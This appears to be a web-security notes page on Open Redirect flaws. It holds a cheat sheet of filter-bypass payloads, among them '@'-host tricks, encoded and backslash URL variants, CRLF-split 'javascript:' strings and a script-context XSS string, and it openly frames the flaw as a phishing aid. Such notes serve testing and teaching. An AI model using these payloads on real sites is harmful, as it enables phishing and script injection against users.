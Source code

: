 # Open Redirect

### Overview

A website is vulnerable to Open Redirect when parameter values \(the portion of URL after "?"\) in an HTTP GET request allow for information that will redirect a user to a new website without proper validation of the target of the redirect. Depending on the architecture of a vulnerable website, redirection could happen after a certain action, such as login, and sometimes it could happen instantaneously upon loading of a page.

An example of a vulnerable website link could look something like this: `https://www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext`

Makes it really easy to get **phishing** done - just redirect to your own site and ask for a login.

### Exploiting Semi-Hardcoded Paths

If the redirection is done like this:

```text
Window.location.href = hardcoded_part + malicious_part
```

Then you might still be able to redirect to your own site using the `@` sign \(might not work, depending on the hardcoded part\)

Tests:

* `http://example.com@test.com` 
  * Works for chrome
  * Works on Firefox but gives phishing warning
* `http://example.com/page@test.com`
  * Doesn't work
* `page@test.com` 

  * Doesn’t work

### Filter Bypassing

Here are some things to try to bypass filters and still be able to get open redirect to work:

* `java%0d%0ascript%0d%0a:alert(0)`
  * CRLF injection to bypass `javascript:` being blacklisted
  * Results in **XSS**
* `//google.com`
  * In case http:// is blacklisted
* `https:google.com`
  * Browsers accept this, good if `//` is blacklisted
* `//google%E3%80%82com`
  * `%E3%80%82` is `。` encoded. 
* `\/\/google.com/`
  * Useful for bypassing // http:// blacklists. Browsers see \/\/ as //\)
* `/\/google.com/`
  * Same as above
* `//google%00.com`
  * Attempt to use a null byte to bypass a blacklist filter.
* `http://www.theirsite.com@yoursite.com/`
  * Browsers will redirect to anything after @
* `http://www.yoursite.com/http://www.theirsite.com/`
  * If `@` is blacklisted and they check if their domain is in the param, then make a folder on your site with the name of their domain
* `";alert(0);//`
  * If the url is echoed in a variable and we want to get xss in script tag





